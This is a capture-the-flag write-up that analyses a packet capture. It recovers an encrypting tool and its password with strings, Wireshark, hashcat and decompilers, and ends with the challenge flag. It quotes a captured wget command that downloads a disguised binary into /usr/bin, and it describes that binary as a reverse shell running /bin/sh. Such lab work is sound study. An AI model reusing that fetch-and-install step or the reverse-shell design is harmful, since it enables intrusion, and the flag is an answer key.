 # The Victims of Lytton Labs

## Flavor Text

Using the _LYTTON LABS Packet Capture file (pcap-challenge-final.pcapng)_ from _LYTTON LABS 01_, find the tool and the password to decrypt the encrypted files.

## How to solve it?

We are given a pcap file called **"pcap-challenge-final.pcapng"** and we need to find: 

- some encrypted file
- the tool to decrypt them
- the password to decrypt them

We can run strings on the file to find some useful information:

```strings pcap-challenge-final.pcapng | sort | uniq | grep "dec"```

> 08-22-21  05:45PM                  194 secret_decoder.bin
--2021-08-22 17:55:35--  http://192.168.100.105/secret_decoder.bin
GET /secret_decoder.bin HTTP/1.1
PASS december
RETR /TOOLS/secret_decoder.bin
-rwxr-xr-x  1 luciafer luciafer      194 Aug 22 17:43 secret_decoder.bin
sudo wget -O /usr/bin/ll-connect.bin http://192.168.100.105/secret_decoder.bin

Ok there is a file called **"secret_decoder.bin"**

```strings pcap-challenge-final.pcapng | sort | uniq | grep "pass"```

> 
08-07-21  09:25PM                   64 encryption-password-cgeschickter.txt
env_reset, mail_badpass,
PASS password
PASS password1
passport
passport.baidu.com
RETR /SECRET/encryption-password-cgeschickter.txt

There is another file called **"encryption-password-cgeschickter.txt"**

```strings pcap-challenge-final.pcapng | sort | uniq | grep ".exe"```

> 08-07-21  09:07PM               105984 lytton-crypt.exe
RETR /TOOLS/lytton-crypt.exe
-rw-r--r--  1 root     root       105984 Aug 21 23:16 lytton-crypt-recovered.exe

And there we have the encryption file **"lyton-crypt.exe"**

We can see that most of the files were access using RETR, that's an FTP command, so we can retrieve the data from the files using Wireshark and filtering for FTP-DATA.

Let's first look for the password

### Password

![[Pasted image 20211016004636.png]]

If we open that package we can see a long string that looks hashed:

>    75AC98147C07752767E09EF781CF998E401D19B01E30CBAA5109D6AD7EC9A174

We can run ```hash-identifier```  on it

![[Pasted image 20211016004820.png]]

We can use ```hashcat``` to try and break it, I will first try SHA-256 (module 1400 in hashcat) with the rockyou.txt wordlist

```hashcat.exe -m 1400 hashes.txt rockyou.txt -O```

We cracked it, the password is **"demagorgon"**

### Retrieving the Files

We can retrieve the **"secret_decoder.bin"** and **"lyton-crypt.exe"** files by right-clicking in their packages and Follow TCP Stream, then we can copy the raw data of the package and save it on our computer.

#### secret_decoder.bin

We can find out the type of file by running ```file``` on it 

```file secret_decoder.bin```

> ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

So is an executable, we can open it on Ghidra or Binary Ninja to see what does it do.

I first try opening it with Ghidra but it was not working properly so I opened  it with Binary Ninja

![[Pasted image 20211016010007.png]]

If we analyze the code we can see that it opens a socket in the IP address ```242.29.0.0``` and then runs /bin/sh on it.

Weird, that's not decoding anything, it is probably some obfuscation to confuse us.

### lyton-crypt.exe

This one is supposed to be the file used to encrypt the other files, we can analyze it on Ghidra first.

If we see the functions we can find some interesting ones:


- usage

```
void usage(undefined8 param_1)

{
  __fprintf_chk(stderr,1,"Usage is: %s -[orc][-sN] file1 file2..\n",param_1);
  fwrite("  -o Write output to standard out\n",1,0x22,stderr);
  fwrite("  -r Do NOT remove input files after processing\n",1,0x30,stderr);
  fwrite("  -c Do NOT compress files before encryption\n",1,0x2d,stderr);
  fwrite("  -sN How many times to overwrite input files with random data\n",1,0x3f,stderr);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

So this one is actually used to encrypt the files. 

![[Pasted image 20211016010458.png]]

Hmmm we have a Decrypt function but it does not say anything about it on the usage, it is probably some hidden functionality

We can try to encrypt a file with any password, and then try to "encrypt" it again to see if it works 

```./lyton-crypt.exe anyfile``` 

> Encryption key:
Again:

Ok the file is pretty much decrypted and it now has the .lcr extension, now let's do it again with the same key

```./lyton-crypt.exe anyfile.lcr``` 

> Encryption key:

Hmm, this time it did not ask for the password again and it actually decrypted the file.

### Finding and Decrypting the files

Now we know that the encrypted files have the .lcr extension we can look for them

```strings pcap-challenge-final.pcapng | sort | uniq | grep ".lcr"```

> RETR /MKDELTA/david-k.txt.lcr
RETR /MKDELTA/david-z.txt.lcr
RETR /MKDELTA/ephraim-w.txt.lcr
RETR /MKSEARCH/daniel-s.txt.lcr
RETR /MKSEARCH/donald-m.txt.lcr
RETR /MKULTRA/deirdre-p.txt.lcr
RETR /MKULTRA/terry-i.txt.lcr
RETR /MKULTRA/wendy-p.txt.lcr
RETR /PROJECTMONARCH/ariana-s.txt.lcr
RETR /PROJECTMONARCH/brittney-s.txt.lcr
RETR /PROJECTMONARCH/christina-a-s.txt.lcr

We can retrieve the files the same way we did for the executables, and try to decrypt them with the password "demagorgon".

When decrypting "christina-a-s.txt.lcr", "britney-s.txt.lcr" and "ariana-s.txt.lcr" I get pretty much the same information that when they were encrypted.

But then I tried for "donald-m.txt.lcr" and I got actually readable text

![[Pasted image 20211016011402.png]]

So now we know that the files on the /MKSEARCH/ directory can be decrypted into text, let's try the other one "daniel-s.txt.lcr"

![[Pasted image 20211016011506.png]]

We got the flag!

## Flag 

> flag{D0nt-ME$$-with-The-ZEAL0t!!!}
